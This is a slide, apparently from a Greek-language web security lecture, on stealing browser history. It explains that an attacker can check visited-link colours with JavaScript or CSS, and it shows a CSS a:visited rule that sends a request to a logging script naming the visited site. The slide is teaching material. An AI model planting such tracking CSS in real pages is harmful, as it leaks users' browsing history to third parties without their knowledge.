

# Browser history stealing
Ο εισβολέας ελέγχει το χρώμα του συνδέσμου με javascript.

Η επίθεση μπορεί να γίνει και με CSS (Cascading Style Sheets).
a:visited {
  background: url(log_visited.php?thepiratebay.se)
}

Παραδείγματα:
http://ha.ckers.org/weird/CSS-history.cgi
http://lcamtuf.coredump.cx/cachetime/